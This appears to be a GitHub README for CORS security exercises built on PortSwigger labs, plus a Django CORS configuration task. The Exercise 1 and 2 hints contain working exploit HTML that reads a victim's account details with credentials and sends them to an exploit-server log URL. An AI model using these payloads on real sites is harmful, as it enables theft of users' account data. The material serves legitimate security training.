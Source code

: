 # Cross-Origin-Resource-Sharing
Cross-Origin Resource Sharing (CORS) is an HTTP-header based mechanism that allows a server to indicate any origins (domain, scheme, or port) other than its own from which a browser should permit loading resources.

## Getting Started
PortSwigger account is required [PortSwigger](https://portswigger.net/users/register)  
Necessary tools: [Burt Suite](https://portswigger.net/burp/communitydownload)

## Exercise 1
CORS vulnerability with basic origin reflection
> [Exercise_1](https://portswigger.net/web-security/cors/lab-basic-origin-reflection-attack)

<details>
  <summary>Hint</summary>
    
    #This code my help you access logs  
    #In your browser, go to the exploit server and enter the following HTML, replacing $url with your unique lab URL  
  
    <script>
      var req = new XMLHttpRequest();
      req.onload = reqListener;
      req.open('get','$url/accountDetails',true);
      req.withCredentials = true;
      req.send();

      function reqListener() {
          location='/log?key='+this.responseText;
      };
    </script>
  
</details>

## Exercise 2
CORS vulnerability with trusted null origin  
> [Exercise_2](https://portswigger.net/web-security/cors/lab-null-origin-whitelisted-attack)


<details>
  <summary>Hint</summary>  
    
    #This code my help you access logs  
    #In your browser, go to the exploit server and enter the following HTML, replacing $url with the URL for your unique lab URL and $exploit-server-url with the exploit server URL  
  
    <iframe sandbox="allow-scripts allow-top-navigation allow-forms" 
      srcdoc="<script>
      var req = new XMLHttpRequest();
      req.onload = reqListener;
      req.open('get','$url/accountDetails',true);
      req.withCredentials = true;
      req.send();
      function reqListener() {
        location='$exploit-server-url/log?key='+encodeURIComponent(this.responseText);
      };
      </script>">
    </iframe>  
  
</details>

## Exercise 3
CORS configuration in Django

Download and uncompress BAWIM.tar.gz and BAWIM2.tar.gz  
BAWIM.tar.gz contains a webserver that shows some images   
BAWIM2.tar.gz contains a webserver that shows images from BAWIM.tar.gz  
Your task is to allow webserver BAWIM2 to access images from BAWIM  
Run BAWIM on port 8000 and BAWIM2 on port 8001  
![alt text](https://github.com/JJast/Cross-Origin-Resource-Sharing/blob/main/i1.png?raw=true)
![alt text](https://github.com/JJast/Cross-Origin-Resource-Sharing/blob/main/i2.png?raw=true)


